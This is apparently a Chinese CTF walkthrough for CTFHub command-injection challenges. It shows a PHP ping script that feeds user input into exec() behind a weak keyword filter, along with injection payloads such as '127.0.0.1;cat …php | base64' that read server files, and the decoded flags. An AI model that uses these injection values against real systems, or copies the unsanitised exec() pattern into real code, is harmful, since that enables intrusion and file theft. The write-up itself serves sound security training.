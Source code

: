 payload `127.0.0.1;cat 2979093065320.php | base64` 

```
PD9waHAgLy8gY3RmaHViezE4YTExNDI0ODgzMGI2NTAyODE1ZTZjMn0K
```

base64解密得到flag 

base64在线解码：https://base64.us

![image-20221126144144312](https://img.gyxnb.top/img/image-20221126144144312.png)

```
<?php // ctfhub{18a114248830b6502815e6c2}
```

ctfhub{18a114248830b6502815e6c2}

### 过滤cat

http://challenge-8786d66d4a937dc7.sandbox.ctfhub.com:10800

```php
<?php
$res = FALSE;
if (isset($_GET['ip']) && $_GET['ip']) {
    $ip = $_GET['ip'];
    $m = [];
    if (!preg_match_all("/cat/", $ip, $m)) {
        $cmd = "ping -c 4 {$ip}";
        exec($cmd, $res);
    } else {
        $res = $m;
    }
}
?>
```

payload `127.0.0.1;ls` 

![image-20221126144932742](https://img.gyxnb.top/img/image-20221126144932742.png)

payload `127.0.0.1;less flag_28644136379345.php | base64` 

```
PD9waHAgLy8gY3RmaHVie2U3NmI0NjNjZTM1NWM0MzVkZDA2NzY2Yn0K
```

base64解密得到flag 

![image-20221126145140705](https://img.gyxnb.top/img/image-20221126145140705.png)

<?php // ctfhub{e76b463ce355c435dd06766b}

ctfhub{e76b463ce355c435dd06766b}

#### 其他查看命令
